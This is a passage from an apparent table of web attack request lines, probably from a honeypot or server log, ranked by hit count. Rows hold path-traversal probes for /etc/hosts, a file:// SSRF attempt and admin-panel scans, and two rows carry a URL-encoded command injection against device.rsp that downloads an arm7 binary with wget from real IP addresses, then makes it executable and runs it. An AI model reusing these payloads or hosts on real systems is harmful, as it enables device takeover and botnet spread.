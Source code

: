 |  79 |                     4 | GET /nice%20ports%2C/Tri%6Eity.txt%2ebak HTTP/1.0                                                                                                                                                                                                                                                                                                          |
|  80 |                     4 | GET /hello HTTP/1.1                                                                                                                                                                                                                                                                                                                                        |
|  81 |                     3 | GET /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/hosts HTTP/1.1                                                                                                                                                                                                                                                               |
|  82 |                     3 | GET /login.action HTTP/1.1                                                                                                                                                                                                                                                                                                                                 |
|  83 |                     3 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F193.17.183.121%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                |
|  84 |                     3 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F103.163.215.73%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                |
|  85 |                     3 | GET /api/geojson?url=file:///etc/hosts HTTP/1.1                                                                                                                                                                                                                                                                                                            |
|  86 |                     3 | GET /idx_config/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
|  87 |                     3 | GET /cgi-bin/authLogin.cgi HTTP/1.1                                                                                                                                                                                                                                                                                                                        |
|  88 |                     3 | GET /users/users/login HTTP/1.1                                                                                                                                                                                                                                                                                                                            |
|  89 |                     3 | GET /v2/_catalog HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
|  90 |                     3 | GET /_ignition/execute-solution HTTP/1.1                                                                                                                                                                                                                                                                                                                   |
|  91 |                     3 | GET /geoserver HTTP/1.1                                                                                                                                                                                                                                                                                                                                    |
|  92 |                     3 | GET /console/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                     |
|  93 |                     3 | GET /solr/admin/cores?action=STATUS&wt=json HTTP/1.1                                                                                                                                                                                                                                                                                                       |